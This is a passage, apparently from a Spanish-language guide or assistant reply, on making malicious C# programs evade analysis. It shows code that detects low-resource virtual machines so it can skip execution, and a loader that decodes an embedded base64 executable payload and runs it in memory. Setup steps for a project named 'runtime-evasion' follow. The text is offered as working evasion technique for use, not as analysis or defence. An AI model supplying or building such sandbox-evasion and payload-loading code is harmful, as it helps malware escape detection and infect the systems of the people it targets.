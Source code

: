 ```csharp
    }
    return false;
}
```

---

#### ✅ 4. **Evitar ejecución si hay poca RAM o poca CPU (VM detection)**

Muchas VMs de análisis tienen recursos mínimos asignados.

```csharp
using Microsoft.VisualBasic.Devices;

bool IsLowResourceMachine()
{
    ComputerInfo ci = new ComputerInfo();
    ulong totalMemory = ci.TotalPhysicalMemory;

    return totalMemory < (2UL * 1024 * 1024 * 1024); // Menos de 2GB RAM
}
```

---

#### ✅ 5. **Uso de código cifrado (desencriptar al vuelo)**

Cifras el payload en el ejecutable, y lo descifras **solo si las condiciones anteriores se cumplen**.

```csharp
string base64Payload = "TVqQAAMAAAAEAAAA//..."; // binario en base64

byte[] exeBytes = Convert.FromBase64String(base64Payload);
Assembly asm = Assembly.Load(exeBytes);
MethodInfo entry = asm.EntryPoint;
entry.Invoke(null, new object[] { new string[] { } });
```

---

### 🧰 ¿Cómo lo instalo y pruebo?

#### 🔧 Requisitos

1. **Visual Studio** o `dotnet CLI`
2. Crea un nuevo proyecto de tipo `Consola .NET`

```bash
dotnet new console -n runtime-evasion
cd runtime-evasion
```

#### 🛠️ Compilar
